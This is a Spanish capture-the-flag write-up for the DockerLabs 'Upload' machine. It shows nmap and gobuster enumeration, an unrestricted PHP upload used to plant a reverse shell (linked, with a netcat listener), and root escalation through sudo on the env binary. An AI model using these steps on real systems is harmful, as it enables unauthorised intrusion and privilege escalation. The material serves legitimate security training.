 ```yaml
---
title: Upload - DockerLabs
published: true
categories: DockerLabs
---
```



## Video de YouTube
<iframe width="560" height="315" src="https://www.youtube.com/embed/zo5TEp5lPGU" frameborder="0" allowfullscreen></iframe>

| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  | Super Fácil | ElPinguinoDeMario | 

## Contenidos
1. [Escaneo y Reconocimiento de puertos](#Escaneo-y-Reconocimiento-de-puertos)
2. [Enumeración Web](#Enumeración-Web)
3. [Intrusión y Escalada de privilegios](#Intrusión-y-Escalada-de-privilegios)


## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.

![imagen](https://github.com/romabri/WriteUps/assets/51706860/dcca48dc-5aa1-4dd8-9a0a-aec57e6606c8)

`nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2`
- `-p-` - Busqueda de puertos abiertos
- `--open` - Enumera los puertos abiertos
- `-sS` - Es un modo de escaneo rapido
- `-sC-` - Que use un conjunto de scripts de reconocimiento
- `-sV` - Que encuentre la version del servicio abirto
- `--min-rate=5000` - Hace que el reconocimiento aun vaya mas rapido mandando no menos de 5000 paquetes
- `-n` - No hace resolución DNS
- `-Pn` - No hace ping
- `-vvv` - Muestra en pantalla a medida que encuentra puertos (Verbose)

Solo tiene el puerto 80 abierto

## Enumeración Web

![imagen](https://github.com/romabri/WriteUps/assets/51706860/fd318e12-6800-448c-82b8-438c42f73acb)

Usamos `Gobuster` para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php`
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.20.10.5/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

Encontramos un directorio llamado upload.php, si accedemos a el tenemos un panel para poder subir archivos

## Intrusión y Escalada de privilegios

![imagen](https://github.com/romabri/WriteUps/assets/51706860/dec4306c-9ac4-4395-a54f-6046094ea05e)

Si hacemos la prueba de subir un archivo php vemos que nos permite hacerlo, entonces vamos ha subir una reverse shell en php para poder hacer la intrusión en la maquina.

Este link os llevara a un repositorio donde tengo colgado una reverse shell php

https://github.com/romabri/reverse_shell_php/blob/main/reverse.php

En la reverse shell hay un apartado que se ha de cambiar y poner la IP de la maquina víctmia y un puerto, normalmente se usa el puerto 443.

Una vez hecho esto en una terminal escribimos el siguiente comando:

`nc -lvnp [El puerto que useis vosotros]`


Una vez dentro de la maquina hacemos el comando `sudo -l`, y aparece que el binario `env` lo podemos ejecutar como sudo sin contraseña vamos a explotar esto para convertirnos en root.

Para ello podemos acceder a la página web de GTFOBINS (https://gtfobins.github.io), y buscar por el nombre del binario.
Si hay forma de escalar privilegios ahí estara descrito, para el binario `env` hacemos lo siguiente:

`sudo /usr/bin/env /bin/sh`

![imagen](https://github.com/romabri/WriteUps/assets/51706860/c597a669-26ef-474f-a603-fa878d4bcaf3)


Esto nos dara una terminal con permisos de administrador y ya habremos terminado la máquina.

